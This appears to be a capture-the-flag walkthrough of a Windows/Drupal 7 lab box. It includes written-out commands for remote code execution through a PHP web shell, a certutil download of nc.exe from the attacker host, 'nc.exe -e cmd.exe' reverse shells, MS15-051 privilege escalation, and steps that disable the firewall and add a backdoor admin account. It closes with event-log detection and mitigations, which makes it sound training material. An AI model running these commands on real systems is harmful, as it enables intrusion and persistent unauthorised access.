#Windows 


![[Pasted image 20240729211204.png]]

Microsoft IIS httpd 7.5
Drupal 7

**Port 80**
![[Pasted image 20240729211303.png]]

Simple SQLi attempt to test for error messages
![[Pasted image 20240729211418.png]]

![[Pasted image 20240729211827.png]]

**PHP 5.3.28**

***

**DRUPAL**

Search for Drupal scanners specifically for Version 7
`drupwn`
https://github.com/immunIT/drupwn

Clone repo and install
![[Pasted image 20240730075733.png]]


```
python3 drupwn --mode enum --target http://10.10.10.9
```
![[Pasted image 20240730080441.png]]

Just before closing out the scanner, and endpoint is discovered
![[Pasted image 20240730080522.png]]
![[Pasted image 20240730080534.png]]


Running the exploit feature gives us this:
![[Pasted image 20240730080850.png]]


I've seen this listed in searchsploit before so lets take a look at it
![[Pasted image 20240729223511.png]]

Seems there are well documented expoits but lets search specifically for Drupal 7.54
https://www.exploit-db.com/exploits/41564
![[Pasted image 20240730082208.png]]

The exploit `41564` references this writeup
https://www.ambionics.io/blog/drupal-services-module-rce
![[Pasted image 20240730082426.png]]


Three stage attack
![[Pasted image 20240730082556.png]]

Services is a _"standardized solution for building API's so that external clients can communicate with Drupal"_. Basically, it allows anybody to build SOAP, REST, or XMLRPC endpoints to send and fetch information in several output formats. It is currently the 150th most used plugin of Drupal, with around 45.000 active websites


At the very end of the write-up we get this:
![[Pasted image 20240730082933.png]]

But remember, we found an API endpoint before at 
```
10.10.10.9/rest
```

***

**Modify PHP EXPLOIT**

![[Pasted image 20240730083317.png]]


Run Error
```
php 41564.php
```
![[Pasted image 20240730083414.png]]

Search error and review StackOverflow solution
![[Pasted image 20240730083523.png]]
```
sudo apt-get install php-curl
```


Run exploit 
![[Pasted image 20240730083641.png]]

We can now navigate to the endpoint and run arbitrary commands!
```
http://10.10.10.9/c@r10s.php?cmd=dir
```
![[Pasted image 20240730083832.png]]

***

**INITIAL FOOTHOLD**

Lets get a better output via command line of the same command

```
curl -ks 'http://10.10.10.9/c@r10s.php' --data-urlencode 'cmd=dir'
```
![[Pasted image 20240730084620.png]]

Running Whoami gives us NT Authority level access
This is great, but now we need a shell
![[Pasted image 20240730084634.png]]


I tried uploading Pentest Monkey rev shell and this new one i found here using 
```
curl -ks 'http://10.10.10.9/c@r10s.php' --data-urlencode 'cmd=certutil -urlcache -split -f http://10.10.16.19:8000/[revshell.php]'
```
https://raw.githubusercontent.com/ivan-sincek/php-reverse-shell/master/src/reverse/php_reverse_shell.php


It successfully uploaded

However, Pentest Monkey failed because it tried to run `uname` and the other gave a 500 error
![[Pasted image 20240730090713.png]]


I instead served up a `nc` windows binary located in `/usr/share/windows-binaries/` and executed a connection 

```
curl -ks 'http://10.10.10.9/c@r10s.php' --data-urlencode 'cmd=certutil -urlcache -split -f http://10.10.16.19:8000/nc.exe'
```
![[Pasted image 20240730091107.png]]

I then ran my command via `curl`
```
curl -ks 'http://10.10.10.9/c@r10s.php' --data-urlencode 'cmd=nc.exe -e cmd.exe 10.10.16.19 1337 '
```

And recieved a shell
![[Pasted image 20240730091159.png]]



![[Pasted image 20240730091254.png]]
==user.txt : c9395d288683973b525e91ef5707d18e==


***

**PRIV ESC**

Running a reg query shows NET v 2 and unable to run WinpEAS
```
reg query "HKLM\SOFTWARE\Microsoft\Net Framework Setup\NDP"
```
![[Pasted image 20240730101556.png]]



**WES - Exploit Suggestor**
Produced many results that didnt seem great



**Windows Hacking Pack** 
https://github.com/51x/WHP
![[Pasted image 20240730101739.png]]

This Felt promising 
![[Pasted image 20240730101800.png]]


The direct links and executables did not work
Search for `MS15-051` manually with secWiki
![[Pasted image 20240730103211.png]]

Grab the zip with the KB listed
https://github.com/SecWiki/windows-kernel-exploits/blob/master/MS15-051/MS15-051-KB3045171.zip

Unzip and serve
![[Pasted image 20240730103315.png]]


Run and catch rev shell
```

.\ms15-051x64.exe "nc.exe -e cmd.exe 10.10.16.19 9999"
```
![[Pasted image 20240730103348.png]]
![[Pasted image 20240730103443.png]]
==root.txt : c188e5edd67fca45ba9940678831a306==

***
***

![[Pasted image 20240730103650.png]]

***
***
**DEFENSIVE TACTICS**

Let's enable RDP, disable firewall and add an account to check for any artifacts that we left behind

**Enable RDP**
```
reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f
```


**Disable Firewall**
```
netsh advfirewall set allprofiles state off
```

**ADD ACCOUNT**
```
net user carlos hack3d#! /add
```


**ADD USER TO ADMIN GROUP**
```
net localgroup administrators carlos /add
```


![[Pasted image 20240730105716.png]]


RDP IN
```
sudo rdesktop -u carlos -p hack3d#! 10.10.10.9
```


***
**EVENT VIEWER**

MITRE
#TTP 
`T12021.001: Priv Escalation Remote Services: RDP`

![[Pasted image 20240730111200.png]]

ID 4728
Security Group Management
Memmber Carlos was added to security-enabled global group

![[Pasted image 20240730111504.png]]

ID 4720
User Account Created
![[Pasted image 20240730111758.png]]

Firewall Disable using `netsh`
![[Pasted image 20240730112132.png]]


**Web-Server Logs**
![[Pasted image 20240730112253.png]]
![[Pasted image 20240730112610.png]]

**Log Location**
```
%SystemDrive%\inetpub\logs\LogFiles
```

**NMAP Scans revealed**
![[Pasted image 20240730112926.png]]

**NC and Malicious php file located**
![[Pasted image 20240730113028.png]]


**Mitre**
#TTP 
`T1070.004 Defense Evasion: Indicator Removal on Host: File Deletion`
![[Pasted image 20240730113922.png]]


#TTP 
`T1070.004 Indicator Removal on Host : Clear Windows Event Logs`
![[Pasted image 20240730114148.png]]



**Event ID**
1102
This in turn generates another log, IoC and very extremely suspicious
![[Pasted image 20240730114335.png]]


***
***

**Mitigation**
- WAF in front of Server
- Patch Operating System
- Install latest version of Drupal
- Compensating control - Configure Drupal to use a non-standard REST API endpoint to hide vulnerability


